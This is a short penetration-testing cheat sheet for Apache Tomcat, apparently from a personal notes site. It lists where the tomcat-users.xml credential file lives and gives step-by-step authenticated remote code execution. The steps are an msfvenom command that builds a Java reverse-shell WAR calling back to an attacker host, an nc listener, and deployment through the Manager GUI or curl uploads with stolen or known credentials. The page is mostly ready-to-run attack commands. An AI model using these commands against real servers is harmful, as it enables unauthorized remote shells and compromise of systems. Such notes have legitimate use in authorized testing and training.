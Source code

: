 ```yaml
---
title: "Apache Tomcat"
date: 2024-7-2
tags: ["tomcat", "apache", "web server", "war", "java", "rce"]
---
```


### Config Location

```console
/usr/share/tomcat9/etc/tomcat-users.xml
```

```console
/etc/tomcat9/tomcat-users.xml
```

---

### RCE (Authenicated)

#### 1. Create a WAR file

```console
msfvenom -p java/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f war -o revshell.war
```

#### 2. Start a listener

```console
rlwrap nc -lvnp <LOCAL_PORT>
```

{{< tab set1 tab1 active >}}3a. Manager GUI{{< /tab >}}
{{< tab set1 tab2 >}}3b. Manager Script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
+--------------------------------------------+
| Exploit                                    |
+--------------------------------------------+
| 1. Login to Tomcat Web Application Manager |
| 2. WAR file to deploy -> Deploy            |
| 3. Click /revshell in Applications table   |
+--------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
curl -u '<USER>:<PASSWORD>' http://<DOMAIN>:8080/manager/text/deploy?path=/revshell --upload-file revshell.war
```

```console
curl -s http://<DOMAIN>:8080/revshell
```

{{< /tabcontent >}}

<br>
